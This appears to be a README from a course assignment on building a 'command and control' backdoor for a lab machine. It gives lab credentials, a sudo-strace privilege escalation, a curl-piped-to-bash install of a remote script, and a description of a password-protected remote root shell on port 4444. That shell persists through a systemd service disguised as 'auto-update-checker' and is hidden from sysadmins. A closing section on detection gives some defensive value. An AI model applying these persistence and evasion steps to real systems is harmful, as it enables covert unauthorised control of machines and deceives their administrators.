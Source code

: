 # Command and Control

A simple backdoor that provides the user persistent password-protected access to a previously compromised machine.

## Installing and running the server script on the week4 machine

Logging into the week4 machine:
ssh into the week4 machine using this command:

```bash
ssh user@10.0.2.5
```

The password for the machine is: hill

To escalate privileges use this command:

```bash
sudo strace -o /dev/null /bin/bash
```
 
then type ‘cd’ in order to change into the root directory

Run the following command which will install the backdoor to the machine. Only 2 files will be installed: the script to run the server from GitHub directly, and the systemd service to ensure persistence (explained more in a further section).

```bash
curl -s https://raw.githubusercontent.com/athulnair02/command-and-control/main/install_backdoor | bash
```

## Installing and running the client script on your local machine

In any spot on the attacking machine add the file:

client.py from the GitHub

Once you’ve done this, you can run the client script at any time using:

```bash
python client.py
```	
or

```bash	
python3 client.py
```

## How the backdoor works

How our backdoor addresses the 5 requirements:
Explanation of how our backdoor provides remote shell access:
The backdoor is essentially a shell in which the target machine reveals port 4444/tcp in the firewall and listens for a connection from the network. The python script on the target side is waiting for a connection, and once accepted and authorized through a password, it receives commands from the attacking machine through TCP and executes them through a subprocess. The output from the command is sent back to the attacking machine through the established connection.
Persistence:
The backdoor maintains persistence using a systemd service that ensures it is always running on the machine. It is the service that initially starts the script to open the backdoor when it is first installed and every time the script ends (either successful, on error, etc.) it will be restarted with a different PID. This way, if there is any unforeseen error in the code, it will not prevent the backdoor from being closed. In addition, if a sysadmin kills the program when finding it suspicious (while looking at top or task manager), it will start again, opening the backdoor once again. Another persistence action taken was having a timeout for the initial backdoor connection. If the backdoor does not have a connection in two minutes, it throws an error and ends the program so that it restarts and ensures the firewall was not closed by the sysadmin. If the firewall is closed, then no connection can be made to the backdoor. This timeout can be changed since the code is directly run off of Github, meaning any push to the main branch will update the backdoor when it is run through the curl command piped into python command.
Configuration to get commands from: 
The only configuration needed is to determine the IP address of the target machine (through nmap or any other means) and change REMOTE_HOST in client.py to that address. It is default set to '10.0.2.5'.
Authentication:
We created a password ( c0d3m@nk3y ) and hashed it using hash(password) in python. This hash is then stored on the server/target machine. We then have client.py ask the user to input a password as the first message to the target and it is then sent to the server. There, the server hashes it and checks it against the known hash, which once confirmed, allows the user remote root shell access.
Hiding from detection: 
There are only 2 files added to the machine: one that is the backdoor, and the other to ensure it keeps running. Both files are using a less suspecting name (auto-update-checker) that creates the illusion of a routine, ordinary task for the sysadmin. The actual script that is run is in the root’s home directory as a hidden file (it can easily be placed elsewhere more secretive). There is no cronjob running so a sysadmin cannot find the script running there (where other common repeating programs may be). In addition, the service is buried deep with other services so it will be difficult for a sysadmin to search through all services to determine which one is malicious.
How our backdoor can be detected:
If the sysadmin checks the hidden files in the root home directory, they can find a presence of a file they did not put. If they look past the unsuspecting name and read the script that is running, they will find the backdoor. 
If the sysadmin looks at what ports are open on the firewall using firewall-cmd –list-ports, they will see that 4444/tcp is open and will know something odd is in place keeping the port open. If they use further investigation, they may find the program using the port if they install lsof and execute lsof -i:4444. 


